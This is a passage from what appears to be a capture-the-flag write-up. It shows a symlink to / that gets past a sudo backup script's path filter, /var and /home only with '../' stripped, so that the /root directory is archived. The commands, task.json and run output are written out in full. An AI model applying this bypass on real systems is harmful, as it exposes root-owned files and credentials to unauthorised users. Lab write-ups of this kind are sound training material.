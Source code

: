 It uses the command backy to make a backup of some directories with a configuration file "task.json". We can find a valid task.json file in his home directory :
```bash
$ cat ~/backups/task.json

{
        "destination": "/home/martin/backups/",
        "multiprocessing": true,
        "verbose_log": false,
        "directories_to_archive": [
                "/home/app-production/app"
        ],

        "exclude": [
                ".*"
        ]
}
```

We can specify a directory to archive and the destination folder of the archive.
If we take a look at the script, we can see two important rules :
1. We can only archive directories from `/var` or `/home`.
2. We cannot use the `../` syntax to go to the parent folder.
```bash
allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")
```

We can try to make a symlink of the root of the machine and archive the `root` folder from this symlink :
```bash
$ ln -s / root_machine
$ cat task.json 
{
        "destination": "/home/martin/backups/",
        "multiprocessing": true,
        "verbose_log": false,
        "directories_to_archive": [
                "/home/martin/backups/root_machine/root"
        ],

        "exclude": [
                ".*"
        ]
}
```

Then we can run the script using sudo :
```bash
$ sudo /usr/bin/backy.sh task.json 
2025/07/22 03:47:49 🍀 backy 1.2
2025/07/22 03:47:49 📋 Working with task.json ...
2025/07/22 03:47:49 💤 Nothing to sync
2025/07/22 03:47:49 📤 Archiving: [/home/martin/backups/root_machine/root]
2025/07/22 03:47:49 📥 To: /home/martin/backups ...
2025/07/22 03:47:49 📦
```
